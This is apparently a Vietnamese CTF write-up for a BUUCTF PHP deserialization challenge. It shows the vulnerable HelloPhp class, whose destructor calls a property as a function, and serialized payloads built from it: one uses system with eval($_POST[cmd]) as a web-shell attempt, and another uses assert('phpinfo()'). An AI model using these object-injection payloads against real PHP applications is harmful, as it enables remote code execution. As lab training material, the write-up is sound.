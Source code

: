 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/679c8d87-c25e-4202-986f-52a307632d92)

Sau đó mình viewsource thì thấy đường dẫn `./time.php?source`.Ta được code sau:

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);


2024-02-14 05:09:35
```

Challenge này thuộc dạng deserialze với tham số là data bởi method GET.

Phần tử b đóng vai trò là một hàm, còn a là tham số của hàm đó.

Construct payload:

```php
<?php
class HelloPhp
{
    public $a = 'eval($_POST[cmd])';
    public $b = system;
}

$c = new HelloPhp;
echo urlencode(serialize($c));
?>
```

Ban đầu mình sử dụng `system(eval($_POST[cmd])` sau đó rồi antsword nhưng có vẻ là không hoạt động.Vậy thì `system` đã bị sheild.

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo()';
    public $b = 'assert';
}

$c = new HelloPhp;
echo urlencode(serialize($c));
?>
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/976107c4-a748-4956-9cb8-6053727b31ed)
